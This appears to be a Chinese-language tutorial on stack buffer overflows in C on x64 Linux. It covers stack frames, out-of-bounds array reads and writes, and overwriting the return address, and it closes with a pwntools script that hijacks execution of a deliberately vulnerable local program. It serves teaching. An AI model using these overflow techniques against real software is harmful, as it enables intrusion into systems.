






在学习C语言的过程中，使用数组，字符串（可以理解为特殊的数组）时，都会注意下标是否会越界，以保证程序正常运行。而在这里，我们将会反其道而行之，探索栈溢出或栈上数组越界时会发生什么，以及怎么利用这些漏洞实现攻击。

## 前置知识

注：以下内容推荐有C语言基础，且了解基本的数据结构的同学阅读，建议先简单了解Linux系统可执行程序的装载之后阅读。文中的代码需在Linux环境下，使用gcc编译得到，代码块第一行为编译参数。

### 虚拟地址空间（以Linux为例）

在现代的操作系统中，每个进程都有一个独立，连续的虚拟地址空间，而虚拟地址空间是按页（4k大小）与物理内存一一对应，按需分配。用户态的程序基本只能接触的虚拟地址空间，对内存的操作也基本是对虚拟地址空间的操作。

下图即为Linux系统基本的虚拟地址空间的结构


`kernel space`为系统内核的内存映射

`stack`为进程的栈内存

`dynamic link libraries`为动态链接库的内存映射

`heap`为堆内存

`ELF`为可执行程序的内存映射

`GAP`为未使用的空白内存

### 基本的栈帧结构（以x64的栈为例）

在C语言中，函数的临时变量是储存于栈上的。栈的增长方向是高地址向低地址，栈底在高地址一侧。

每个函数有自己对应的栈帧，下图为栈帧的基本结构。



`RBP`为栈底寄存器，`RSP`为栈顶寄存器，分别记录了栈帧中记录数据部分的起始和终止地址。函数的临时变量的在内存中的位置都是通过这两个寄存器加减偏移确定的。

栈底分别还记录了上一个栈帧的`RBP`的值，以及函数的返回地址。

### 函数调用与栈帧变化

前面提到了函数的临时变量是存在栈上的，这里就来了解一下函数调用时栈帧的压栈和出栈过程。

以下面这个代码为例

```c
#include <stdio.h>

void test() {
    char* str = "Hello World!";
}

int main() {
    test();
    return 0;
}
```

这段代码对应的汇编大致如下（省略函数的具体细节，仅仅保留了调用相关内容）

其中`call test`可以近似理解为`push addr_after_call; jmp test`，`leave`可以近似理解为`mov rsp, rbp; pop rbp`，`ret`可以近似理解为`pop rip`

```asm
test:
	push	rbp
	mov	    rbp, rsp
	sub 	rsp, 16
    ...
	leave
	ret
main:
	...
	call	test
	...
```

对应的栈帧变化如下（添加底色的汇编指令为即将执行的指令，`call test`为GIF的开始）



## 数组越界

在开始之前，先明白一个东西：C语言是一个非常自由的语言，除了语法外对你基本没有限制。

### 通过越界读取栈上的内容

看下面这个程序，很明显，第二个for循环中存在数组越界。

```c
// gcc -no-pie -fno-stack-protector -g test.c
#include <stdio.h>

int main() {
    unsigned long long arr[10];

    for (int i = 0; i < 10; i++) {
        arr[i] = 0xdeadbeef;
    }

    for (int i = 0; i < 12; i++) {
        printf("arr[%d] = 0x%llx\n", i, arr[i]);
    }

    return 0;
}
```

下图即为这段程序的输出。



可以看到程序并没有出现异常退出的情况，同时`arr[10]`和`arr[11]`也读出了数据。这里，我们可以通过gdb看看`arr[10]`和`arr[11]`对应的是什么东西。

下图即为gdb的一些调试信息，其中`arr[10]`的地址对应为`&arr + 10 * 8`，由此可以看出C语言自身其实并没有限制下标的范围，而是直接根据数组的基地址计算对应下标的元素的基地址。



现在我们可以通过数组越界读到栈上的内容，我们继续尝试通过数组越界来往栈上写东西。

### 通过越界篡改栈上的内容

我们看下面这个程序，`arr[11] = 0xcafebabe;`存在数组越界。

```c
// gcc -no-pie -fno-stack-protector -g test.c
#include <stdio.h>

int main() {
    unsigned long long arr[10];
    unsigned long long var = 0xdeadbeef;

    printf("var = %llx\n", var);

    arr[11] = 0xcafebabe;

    printf("var = %llx\n", var);

    return 0;
}
```

下图即为这段程序的输出。可以发现`var`的值被成功修改了。



### 通过越界控制程序流

现在我们可以用非法的方式任意读写栈上的内容了，我们继续拓展，接下来我们要通过非法的方式控制程序的执行流。

控制程序流的本质就是控制`rip`寄存器。那么，栈上有什么东西能影响`rip`寄存器呢？联系前面的栈帧的结构，可以结合栈上的返回地址和`ret`指令实现控制`rip`寄存器。

下面这个程序的目的是通过`arr`下标越界控制程序流。

```c
// gcc -no-pie -fno-stack-protector -g test.c
#include <stdio.h>

void func() { printf("func called.\n"); }

int main() {
    unsigned long long arr[10];

    arr[11] = (unsigned long long)func;

    return 0;
}
```

下图为程序的运行结果。


上面的程序对应的汇编大致如下：

```asm
func:
	...
main:
	push	rbp
	mov 	rbp, rsp
	sub 	rsp, 0x50
	lea 	rax, [func]
	mov 	qword ptr [rbp + 8], rax
	mov 	eax, 0
	leave
	ret
```

对应的栈帧变化如下（添加底色的汇编指令为即将执行的指令，`lea rax, [func]`为GIF的开始）


## 字符串栈溢出

### 字符串栈溢出基本原理

字符串可以理解为特殊的数组，所以字符串也有与数组类似的特性（编译和运行时并不会检查字符串的长度）。在字符串栈溢出的漏洞多数是由`gets`，`scanf`，`read`等输入函数以及`memcpy`，`strcpy`等`string.h`库中的函数没有正常处理字符串长度造成的。

这里以`read`为例，下面段代码中`str`的长度为0x20，而`read`能够读取0x50的字符串。

```c
// gcc -no-pie -fno-stack-protector -g test.c
#include <stdio.h>

void func() { printf("func called\n"); }

int main() {
    char str[0x20];

    read(0, str, 0x50);

    return 0;
}
```

下图为程序的运行结果，可以看到程序是因为异常推出的。


上面的程序对应的汇编大致如下：

```asm
func:
	...
main:
	push	rbp
	mov 	rbp, rsp
	sub 	rsp, 0x20
	lea 	rax, [rbp-0x20]
	mov 	edx, 0x50
	mov 	rsi, rax
	mov 	edi, 0
	mov 	eax, 0
	call	read
	mov 	eax, 0
	leave
	ret
```

对应的栈帧变化如下（添加底色的汇编指令为即将执行的指令，`call read`为GIF的开始）


由上图可以看出，只要我们适当地控制输入的值就可以实现修改返回地址，从而实现控制程序的程序流。

### 字符串栈溢出劫持执行流

为了快速构造合适的输入值，实现对程序流的控制，这里引入里一个基于python的工具`pwntools`

```python
#!/usr/bin/python3
# -*- encoding: utf-8 -*-

from pwn import *

# context.log_level = "debug"
# context.terminal = ["konsole", "-e"]
context.arch = "amd64"

p = process("./a.out")

elf = ELF("./a.out")

target_address = elf.sym["func"]

payload = b"A" * 0x28
payload += p64(target_address)

p.send(payload)

p.interactive()
```

上面这个脚本中：

`p`为进程对象（可以将`process`换成`remote(address, port)`使其变成远程连接的对象）

`elf`为可执行程序对象，`elf.sym["func"]`为获取可执行程序中符号`func`的地址

`p64`为将数字根据端序转为64位的字节流。

`p.send(payload)`为将`payload`发送到对应的进程或者远程连接。

`p.interactive()`为保持交互，将输入方从脚本改为用户。

**注意** python3版本的`pwntools`的payload的字符串之前需要加上`b`前缀

下图即为脚本的运行结果。


